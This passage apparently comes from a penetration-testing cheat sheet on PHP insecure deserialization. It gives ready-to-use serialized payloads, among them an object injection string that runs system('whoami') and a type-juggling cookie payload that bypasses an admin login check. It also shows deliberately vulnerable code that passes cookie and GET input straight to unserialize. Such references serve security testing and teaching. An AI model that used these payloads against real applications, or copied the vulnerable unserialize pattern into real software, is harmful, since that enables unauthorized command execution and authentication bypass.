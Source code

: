Craft a payload using existing code inside the application.

```php
# Basic serialized data
a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}

# Command execution
string(68) "O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}"
```

## Authentication bypass

### Type juggling

Vulnerable code:

```php
<?php
$data = unserialize($_COOKIE['auth']);

if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
    $admin = true;
} else {
    $admin = false;
}
```

Payload:

```php
a:2:{s:8:"username";b:1;s:8:"password";b:1;}
```

Because `true == "str"` is true.

## Object Injection

Vulnerable code:

```php
<?php
class ObjectExample
{
  var $guess;
  var $secretCode;
}

$obj = unserialize($_GET['input']);

if($obj) {
    $obj->secretCode = rand(500000,999999);
    if($obj->guess === $obj->secretCode) {
        echo "Win";
    }
}
?>
```
